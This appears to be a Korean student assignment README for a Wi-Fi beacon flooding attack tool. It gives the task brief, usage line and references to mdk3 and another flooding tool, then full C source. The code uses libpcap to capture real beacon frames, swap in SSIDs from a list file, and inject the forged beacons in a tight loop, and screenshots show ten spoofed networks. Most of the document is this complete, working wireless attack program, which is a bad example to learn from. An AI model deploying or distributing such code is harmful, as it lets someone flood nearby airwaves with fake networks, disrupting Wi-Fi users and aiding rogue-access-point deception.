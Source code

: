 ### 과제

Beacon Flooding Attack 프로그램을 제작하라.

### 실행

`syntax : beacon-flood <interface> <ssid-list-file>
sample : beacon-flood mon0 ssid-list.txt`

### 상세

- [Beacon Flooding Attack](https://gilgil.gitlab.io/2020/09/07/2.html) 예제를 빌드하고 실행해 본다(예전 스마트폰에서는 SSID List가 보이지만 요즘 스마트폰에서는 보이지 않는 현상이 있다).
- libtins를 사용하지 않고 직접 Beacon frame(Radiotap Header + IEEE 802.11 Beacon frame + IEEE 802.11 Wireless Management)을 만들어 하여 전송하는 프로그램을 제작하는 것을 추천.
- Beacon frame을 직접 만들기 어려울 경우 기존의 실제 Beacon frame을 pcap으로 잡아서 거기에 SSID 값만 바꾸어서 전송해 보도록 한다.
- ssid-list.txt 에 포함된 SSID는 일단 영어로 작성하고 다음에 한글로 테스트해 본다. 그리고 SSID 갯수를 하나만 설정하여 제대로 작동하는지 확인하고, 확인이 된 이후에는 10개까지 넣어서 작동하는지 확인한다.
- 기타 다양한 beacon flooding code를 참조한다.
    
    https://kalilinuxtutorials.com/mdk3/
    
    https://gitlab.com/gilgil/g/-/blob/master/src/net/process/gbeaconflood.cpp
    

# 전체 코드

```c
#include <pcap.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define ESSID_MAX_LEN 100
#define FIXED_PARAMETERS_LEN 12

struct ieee80211_radiotap_header {
    u_int8_t it_version;
    u_int8_t it_pad;
    u_int16_t it_len;
    u_int32_t it_present;
} __attribute__((__packed__));

struct BEACON_FRAME {
    u_int8_t frame_type[2];
    u_int16_t duration_id;
    u_int8_t destination_mac[6];
    u_int8_t source_mac[6];
    u_int8_t bssid[6];
    u_int16_t sequence_ctr;
} __attribute__((__packed__));

typedef struct {
    char ssid[ESSID_MAX_LEN];
} SSID;

SSID ssid_list[256];
int ssid_count = 0;
char* dev;

void usage() {
    printf("syntax: beacon-flood <interface> <ssid-list-file>\n");
    printf("sample: beacon-flood mon0 ssid-list.txt\n");
    exit(1);
}

void load_ssid_list(const char* filename) {
    FILE* file = fopen(filename, "r");
    if (!file) {
        perror("Failed to open ssid-list file");
        exit(1);
    }

    while (fgets(ssid_list[ssid_count].ssid, sizeof(ssid_list[ssid_count].ssid), file)) {
        ssid_list[ssid_count].ssid[strcspn(ssid_list[ssid_count].ssid, "\n")] = 0; // Remove newline
        ssid_count++;
        if (ssid_count >= 256) {
            fprintf(stderr, "SSID list exceeds maximum capacity (256).\n");
            break;
        }
    }
    fclose(file);

    if (ssid_count == 0) {
        fprintf(stderr, "SSID list is empty.\n");
        exit(1);
    }
}

void capture_and_send_beacon_frames(pcap_t* handle) {
    struct pcap_pkthdr* header;
    const u_char* original_packet;
    int res;

    while ((res = pcap_next_ex(handle, &header, &original_packet)) >= 0) {
        if (res == 0) continue;

        // Copy the original packet to modify
        u_char packet[header->caplen];
        memcpy(packet, original_packet, header->caplen);

        // Parse Radiotap Header and Beacon Frame
        struct ieee80211_radiotap_header* radiotap = (struct ieee80211_radiotap_header*)packet;
        struct BEACON_FRAME* beacon = (struct BEACON_FRAME*)(packet + radiotap->it_len);

        // Check if it's a Beacon Frame
        if (beacon->frame_type[0] != 0x80) // Not a Beacon Frame
            continue;

        // Locate the SSID tag
        int idx = radiotap->it_len + sizeof(struct BEACON_FRAME) + FIXED_PARAMETERS_LEN; // Skip Fixed Parameters
        while ((unsigned int)idx < header->caplen) {
            if (packet[idx] == 0x00) { // Tag Number: SSID
                int original_ssid_len = packet[idx + 1]; // Original SSID Length
                for (int i = 0; i < ssid_count; i++) {
                    int new_ssid_len = strlen(ssid_list[i].ssid);

                    // Calculate new packet length
                    int new_packet_len = header->caplen - original_ssid_len + new_ssid_len;

                    // Allocate new packet
                    u_char* new_packet = (u_char*)malloc(new_packet_len);
                    if (!new_packet) {
                        fprintf(stderr, "Memory allocation failed.\n");
                        exit(1);
                    }

                    // Copy data before SSID
                    int ssid_offset = idx + 2;
                    memcpy(new_packet, packet, ssid_offset);

                    // Insert new SSID
                    memcpy(new_packet + ssid_offset, ssid_list[i].ssid, new_ssid_len);

                    // Copy data after SSID
                    memcpy(new_packet + ssid_offset + new_ssid_len, packet + ssid_offset + original_ssid_len, header->caplen - ssid_offset - original_ssid_len);

                    // Update SSID length
                    new_packet[idx + 1] = new_ssid_len;

                    // Send the modified packet
                    if (pcap_sendpacket(handle, new_packet, new_packet_len) != 0) {
                        fprintf(stderr, "Error sending packet: %s\n", pcap_geterr(handle));
                    } else {
                        printf("Sent beacon with SSID: %s\n", ssid_list[i].ssid);
                    }

                    free(new_packet);

//                    usleep(100000); // 100ms delay
                }
                break;
            }
            idx += packet[idx + 1] + 2; // Move to the next tag
        }
    }

    if (res == PCAP_ERROR || res == PCAP_ERROR_BREAK) {
        fprintf(stderr, "Error reading packet: %s\n", pcap_geterr(handle));
    }
}

int main(int argc, char* argv[]) {
    if (argc != 3) {
        usage();
    }

    dev = argv[1];
    const char* ssid_file = argv[2];

    // Load SSID list
    load_ssid_list(ssid_file);

    // Open live pcap handle for capturing and sending packets
    char errbuf[PCAP_ERRBUF_SIZE];
    pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
    if (!handle) {
        fprintf(stderr, "pcap_open_live failed: %s\n", errbuf);
        return 1;
    }

    // Capture and modify beacon frames
    capture_and_send_beacon_frames(handle);

    pcap_close(handle);
    return 0;
}
	
```

# 실행 결과

### 영문 텍스트 (10개)
ganzi1  ~ ganzi10
![image](https://github.com/user-attachments/assets/080e85a2-ef1d-4ea0-a5a0-821a44c9dda4)
![image](https://github.com/user-attachments/assets/d3263530-62d5-4c9d-9361-a07e4cd3cec1)

### 한글 테스트
![image](https://github.com/user-attachments/assets/e8a37ba1-5825-4340-9c68-26c39c4c6fd7)
